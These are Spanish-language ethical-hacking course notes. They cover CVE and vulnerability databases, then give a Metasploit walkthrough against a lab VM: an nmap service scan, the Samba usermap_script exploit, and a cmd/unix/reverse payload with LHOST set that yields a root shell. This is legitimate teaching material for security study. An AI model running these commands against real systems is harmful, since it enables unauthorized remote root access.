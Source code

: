         - ¿Quién asigna un CVE? La CNA (Candidate Numbering Authority) que se constituye por los principales fabricantes de software y hardware, empresas del sector, etc. LA CVE está gestionado por The Mitre Corporation que es una empresa de EEUU que actúa como líder del consejo editor. 
        - Según CVE, una vulnerabilidad es un estado de un sistema informático (o conjunto de sistemas) que cumple alguno de los siguientes casos:
            - Permite a un atacante ejecutar comandos como otro usuario.
            - Permite a un atacante acceder a datos violando las restricciones de control de acceso específicas para dichos datos.
            - Permite a un atacante suplantar a otra entidad.
            - Permite a un atacante llevar a cabo una denegación de servicio.
        - Por supuesto existen varios sistemas para clasificar las vulnerabilidades además de mediante CVE. 
            - Tenemos por ejemplo BID (BugTraq ID), asignado por la lista BugTraq. Empresa comprada por SecurityFocus, que a su vez fue absorbida por Symantec. 
            - MS (Microsoft Security) forma en la cual Microsoft identifica sus fallos de seguridad.
        - Enlaces útiles de cara al Análisis de Vulnerabilidades
            - The Open Source Vulnerability Database (OSVD) -> Open Security Foundation. http://osvdb.org/
            - National Vulnerability Database (NVD). Base de datos perteneciente al gobierno de EEUU de acceso público. http://nvd.nist.gov/
            - SecurityFocus Vulnerability Database -> Symantec http://www.securityfocus.com/bid
            - Exploit DB http://www.exploit-db.com
            - Aplicación nessus para realizar escaneos de redes.
            - MBSA (Microsoft Baseline Security Analyzer) para analizar tu equipo para buscar fallos de seguridad en tu equipo.

## Tema 3.- Escaneando mi red como Hácker Ético - Parte II

Continuamos esta parte de escaneando mi red como Hacker Ético. En esta sección nos centraremos en la explotación de vulnerabilidades de nuestra red.

Para ello primero explicaremos algunos conceptos básicos:
- Bug: Es un fallo de una aplicación durante el desarrollo.
- Exploit: Trozo de código que se aprovecha de un bug para obtener información/acceso/privilegios.
- Payload: Una vez que nos hemos aprovechado del bug por medio de un exploit introduciremos un Payload. Un payload es un código malicioso que se ejecutará en la máquina de la víctima.
- Shellcode: Serie de instrucciones utilizada dentro de un payload para llevar a cabo la explotación del sistema normalmente escritas en lenguage ensamblador. 
- Encoders: Algoritmo para camuflar los payloads.
- Metasploit: Una de las herramientas más utilizadas para los auditores de seguridad. 
    - Para empezar a usar metasploit ejecutaremos el comando `sudo msfdb init` para inicializar la base de datos de Metasploit.
    - A continuación simularemos un caso práctico. Realizaremos una escalada de privilegios en una máquina virtual que tiene como IP 10.0.2.5, para ello en primer lugar ejecutaremos `nmap -sV 10.0.2.5` para ver los servicios que tiene ejecutando esta máquina. Nos fijamos que entre los servicios que tiene ejecutando vemos el servicio Samba entre la versión 3 y 4 y el servicio SQL.  
    - Vamos a ver dos métodos diferentes para obtener el usuario root en esta máquina. 
        - En el primer método utilizaremos el servicio samba, para ello iniciamos la consola de metasploit con el comando `msfconsole` y una vez dentro primero usaremos un exploit para samba para obtener un listado de los usuarios con `use exploit/multi/samba/usermap_script`. Podemos ver las opciones de este script con el comando `show options` pero nosotros ejecutaremos `set RHOSTS 10.0.2.5` para establecer la víctima (comprobamos que lo hemos hecho bien otra vez con el `show options`). A continuación establecemos el payload con `set PAYLOAD cmd/unix/reverse`. Este payload es uno muy conocido que nos permite establecer una terminal reversa, es decir, que mediante una terminal en nuestro equipo podamos acceder a la máquina de la víctima. Para ello es necesario establecer nuestro equipo con `set LHOST 10.0.2.4` (comprobamos que lo hemos hecho bien otra vez con el `show options`). Para ejecutar el exploit basta con ejecutar el comando `run` tras lo cual se nos dará acceso a una terminal. Si probamos a hacer un `ls` podemos ver el contenido del directorio actual y si escribimos `whoami` vemos que directamente somos root. 